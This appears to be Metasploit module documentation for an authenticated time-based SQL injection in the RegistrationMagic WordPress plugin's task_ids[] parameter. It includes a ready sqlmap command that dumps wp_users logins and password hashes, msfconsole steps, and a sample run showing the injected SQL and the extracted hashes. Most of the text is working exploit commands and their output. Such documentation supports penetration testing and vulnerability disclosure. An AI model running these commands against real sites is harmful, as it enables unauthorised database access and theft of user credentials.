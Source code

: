 ## Vulnerable Application

RegistrationMagic, a WordPress plugin,
prior to 5.0.1.5 is affected by an authenticated SQL injection via the
`task_ids[]` parameter.

The plugin can be downloaded
[here](https://downloads.wordpress.org/plugin/custom-registration-form-builder-with-submission-manager.5.0.1.5.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/admin-ajax.php?page=rm_ex_chronos_edit_task&rm_form_id=2' --data="action=rm_chronos_ajax&rm_chronos_ajax_action=duplicate_tasks_batch&task_ids[]=2" -p "task_ids[]" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql --cookie '<cookie>'
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_registrationmagic_sqli`
4. Do: `set rhosts [ip]`
5. Do: `set username [username]`
6. Do: `set password [password]`
7. Do: `run`
8. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

### USERNAME

The username to login with. Defaults to ``.

### PASSWORD

The password to login with. Defaults to ``.

## Scenarios

### Registration Magic 5.0.1.5 on Wordpress 5.7.5 on Ubuntu 20.04

```
[*] Processing registrationmagic.rb for ERB directives.
resource (registrationmagic.rb)> use auxiliary/scanner/http/wp_registrationmagic_sqli
resource (registrationmagic.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (registrationmagic.rb)> set verbose true
verbose => true
resource (registrationmagic.rb)> set username admin
username => admin
resource (registrationmagic.rb)> set password admin
password => admin
resource (registrationmagic.rb)> run
[*] Checking /wp-content/plugins/custom-registration-form-builder-with-submission-manager/readme.txt
[*] Found version 5.0.1.5 in the plugin
[+] Vulnerable version of RegistrationMagic detected
[*] Using formid of: 74
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(GPc) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) GPc from wp_users limit 3) PfXJX)
[*] {SQLi} Encoded to (select group_concat(GPc) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xc,0)),ifnull(user_pass,repeat(0x24,0))) as binary) GPc from wp_users limit 3) PfXJX)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTHmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

